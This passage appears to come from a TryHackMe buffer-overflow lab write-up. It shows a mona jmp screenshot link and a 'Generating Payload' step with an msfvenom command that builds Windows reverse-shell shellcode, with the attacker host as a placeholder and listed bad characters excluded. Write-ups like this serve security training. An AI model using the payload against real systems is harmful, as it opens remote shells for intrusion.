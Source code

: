 ![Mona jmp](/images/THM/buffprep/of9/Captura8.PNG)

##### Generating Payload

It's time to generate the payload.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=<Port that we want> EXITFUNC=thread -b "\x00,\x04,\x3e,\xef,\xe1" -f c
```

